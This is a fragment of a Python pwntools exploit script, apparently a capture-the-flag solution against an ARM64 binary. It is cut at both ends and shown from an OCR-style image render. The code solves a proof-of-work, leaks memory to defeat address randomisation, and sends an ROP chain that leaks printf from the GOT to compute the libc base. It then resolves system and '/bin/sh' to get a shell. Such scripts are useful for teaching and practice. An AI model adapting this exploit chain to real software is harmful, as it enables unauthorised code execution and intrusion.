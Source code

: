 ```python
    return prefix

def poc(io):
    pt, ct = io.recvuntil('xxxx:\n')[:-15].split(' == ')
    io.sendline(bruteforce(pt[12:-1],ct))

def pwn(io):
    name = p64(gadget2)
    name += p64(0)
    name += p64(0x10A9FC70042)
    name += p64(0)
    io.sendafter("input your name: ",name)
    lock(-2)
    show()
    io.recvuntil("name: ")
    leak2 = u64(io.recv(8))
    new_gadget = conv(gadget2, leak2)
    add(puts_plt)
    lock(-1)
    auth(-1)
    payload = "a"*0x28
    payload += flat([
        new_gadget, #pc
        0, #x29
        gadget1, #x30
        0, #x19
        1, #x20
        name_addr + 0x20, #x21
        printf_got, #x22
        printf_got, #x23
        printf_got, #x24
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main
    ])
    io.send(payload)
    libc.address = u64((io.recv(3)+"\x00\x40").ljust(8,"\x00")) - libc.symbols['printf']
    log.info("Libc base -> "+hex(libc.address))

    system = libc.symbols['system']
    binsh = next(libc.search("/bin/sh"))

    log.info("System -> "+hex(system))
    log.info("Binsh -> "+hex(binsh))

    libcgadget = libc.address + 0x63c0c

    name = p64(gadget2)
    name += p64(0)
    name += p64(0x10A9FC70042)
    name += p64(0)
    io.sendafter("input your name: ",name)
    lock(-2)
    show()
    io.recvuntil("name: ")
```